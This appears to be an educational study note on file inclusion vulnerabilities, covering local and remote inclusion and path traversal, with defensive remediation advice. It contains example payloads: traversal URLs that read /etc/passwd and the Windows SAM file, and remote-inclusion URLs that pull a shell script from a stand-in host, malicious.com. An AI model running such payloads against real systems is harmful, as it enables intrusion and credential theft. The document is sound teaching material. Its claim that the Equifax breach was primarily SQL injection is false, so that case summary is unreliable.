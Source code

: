 # File Inclusion Overview

## File Inclusion Overview

### High-Level Summary

_**File Inclusion Vulnerabilities**_ occur when applications improperly handle user input to include files dynamically. This can lead to severe consequences like **information disclosure**, **remote code execution**, or **privilege escalation**. File inclusion vulnerabilities arise due to poor input validation, lack of access controls, and improper path handling. These vulnerabilities are categorized into:

* _**Local File Inclusion (LFI)**_: Including files already present on the server.
* _**Remote File Inclusion (RFI)**_: Including files from external sources via URLs.
* _**Path Traversal**_: Accessing files outside the intended directory by manipulating paths.

***

### Definition Bank

| **Term**                        | **Definition**                                                                                                | **Example**                                                                        |
| ------------------------------- | ------------------------------------------------------------------------------------------------------------- | ---------------------------------------------------------------------------------- |
| **File Inclusion**              | A mechanism for including files into a main script, often using directives like `include` or `require`.       | Including configuration files or templates dynamically in PHP or Python.           |
| **Local File Inclusion (LFI)**  | Exploiting a file inclusion vulnerability to include files already on the server.                             | Reading `/etc/passwd` via path manipulation in Unix-based systems.                 |
| **Remote File Inclusion (RFI)** | Exploiting a file inclusion vulnerability to include files from external sources via URLs.                    | Including a malicious script hosted on an attacker-controlled server.              |
| **Path Traversal**              | A vulnerability where attackers manipulate paths to access unauthorized files outside the intended directory. | Using `../../../../etc/passwd` to traverse directories and access sensitive files. |
| **Absolute Path**               | A full path to a file or directory from the root of the filesystem.                                           | `/var/www/html/config.php`.                                                        |
| **Relative Path**               | A path relative to the current working directory.                                                             | `../config.php` or `../../etc/passwd`.                                             |

***

### Understanding Key Concepts

#### File Inclusion in Modular Design

Modern applications are often modular to improve maintainability and scalability. This means:

* Applications are broken into components based on functionality (e.g., configurations, templates).
* Files are dynamically included using mechanisms like `include` (PHP), `import` (Python), or `require` (Node.js).

***

### How File Inclusion Vulnerabilities Occur

1. **Improper Input Validation**:
   * **Problem**: When file paths are constructed using unsanitized user input.
   * **Effect**: Allows attackers to manipulate the input to include unintended files.
2. **Lack of Access Controls**:
   * **Problem**: Absence of proper restrictions on directories or file access.
   * **Effect**: Attackers can access sensitive files like configurations or logs.

***

### Categories of File Inclusion Vulnerabilities

#### Local File Inclusion (LFI)

* **What it is**: Exploiting the inclusion mechanism to load files already on the server.
* **Impact**:
  * **Information Disclosure**: Reading sensitive files like `/etc/passwd`.
  * **Server-Side Code Execution**: Including log files containing malicious payloads.
  * **Privilege Escalation**: Accessing configuration files with admin credentials.

**Example Payload**:

```php
http://example.com/index.php?file=../../../../etc/passwd
```

***

#### Remote File Inclusion (RFI)

* **What it is**: Exploiting the inclusion mechanism to load files from external URLs.
* **Impact**:
  * **Remote Code Execution**: Running attacker-hosted malicious scripts.
  * **Data Theft**: Exposing sensitive application data to attackers.

**Example Payload**:

```php
http://example.com/index.php?file=http://malicious.com/shell.php
```

***

#### Path Traversal

* **What it is**: Manipulating file paths to access files outside the intended directory.
* **Impact**:
  * **Information Disclosure**: Reading files like `config.php` or `/etc/passwd`.
  * **Access Control Bypass**: Navigating outside restricted directories.

**Example Payloads**:

```plaintext
../../../../etc/passwd
..\\..\\..\\..\\windows\\system32\\config\\SAM
```

***

### Real-World Impact

* **Equifax Data Breach (2017):** While primarily an SQL injection vulnerability, the attack demonstrated how improper input validation and poor access controls could lead to massive data exposure. Similar issues exist in file inclusion vulnerabilities.
* **CVE-2019-18952 (Webmin):** A remote file inclusion vulnerability in Webmin allowed attackers to execute arbitrary commands by injecting malicious URLs.
* **Multiple WordPress Plugins (Ongoing):** Poorly implemented file inclusion mechanisms in WordPress plugins frequently result in LFI and RFI vulnerabilities, enabling attackers to gain unauthorized access or execute arbitrary scripts.

***

### Attack Scenarios

#### Local File Inclusion (LFI) Example

```php
http://example.com/index.php?page=../../../../etc/passwd
```

* The application does not properly validate user input, allowing traversal outside the intended directory.
* If successful, the attacker retrieves system files, potentially exposing credentials and configuration details.

#### Remote File Inclusion (RFI) Example

```php
http://example.com/index.php?page=http://malicious.com/shell.txt
```

* The attacker provides a URL pointing to a malicious script, which the application executes, leading to remote code execution.

***

### Remediation Strategies

1. **Input Validation & Sanitization**
   * Restrict input to expected file names and extensions.
   * Use allowlists rather than blocklists to enforce safe inputs.
2. **Enforce Secure File Handling**
   * Use absolute paths instead of relying on user input.
   * Restrict file inclusion to specific directories using settings like `open_basedir` (PHP) or sandboxed file access controls.
3. **Disable Remote File Inclusion**
   * If RFI is not required, disable functions that allow URL-based inclusion (e.g., `allow_url_include=Off` in PHP).
4. **Monitor and Log Access Attempts**
   * Implement logging and alerting mechanisms to detect unusual file access patterns.
   * Regularly audit logs for suspicious inclusion attempts.
5. **Apply Principle of Least Privilege**
   * Limit file permissions to prevent unauthorized read or execution access.
   * Ensure web application users have minimal access rights.

***

#### Conclusion

File inclusion vulnerabilities pose a significant threat to web applications, often leading to sensitive data disclosure or full system compromise. Secure coding practices, strict input validation, and proper access controls are essential in mitigating these risks. Regular security assessments, including vulnerability scanning and penetration testing, help identify and remediate these vulnerabilities before exploitation occurs.
